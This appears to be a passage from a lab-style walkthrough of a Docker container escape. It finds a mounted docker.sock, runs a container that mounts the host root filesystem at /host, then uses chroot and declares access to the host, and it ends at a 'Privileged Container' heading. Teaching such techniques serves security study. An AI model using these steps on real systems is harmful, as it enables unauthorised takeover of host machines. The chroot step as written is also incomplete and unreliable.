 
To search for the *`docker.sock`* file to confirm if it has been mounted inside the container, you can use the following command:
```bash
find / -name docker.sock 2>/dev/null
```

This command will search the entire filesystem (`/`) for the *`docker.sock`* file and suppress any error messages (like permission denied) by redirecting them to *`/dev/null`*

To find the location of the Docker executable, you can use the *`whereis`* command:
```bash
whereis docker
```

> This will output the path to the `docker` executable on your system, typically located in directories like *`/usr/bin/docker`* or *`/usr/local/bin/docker`*


*`docker run`* command is used to run a container and mount a volume with the entire **host filesystem**:
```bash
docker run --rm -i -v /:/host matmats777/victim4:latest
```

Explanation of the command:
- `docker run`: Command to start a new container.
- `--rm`: Automatically removes the container after it stops.
- `-i`: Keeps STDIN open even if not attached.
- `-v /:/host`: Mounts the root filesystem (`/`) of the host inside the container at the path `/host`.
- `matmats777/victim4:latest`: Name of the container image to run, with the `latest` tag.

> This command creates a container that has full access to the host filesystem via the *`/host`* directory inside the container. 

> This can be useful for debugging or analysis purposes, but it also poses significant security risks if not used carefully.



Lets isolate the filesystem for that process and its descendants from the rest of the system:
```bash
chroot .
```


> Voilà! We have access to the Host system



## Privileged Container
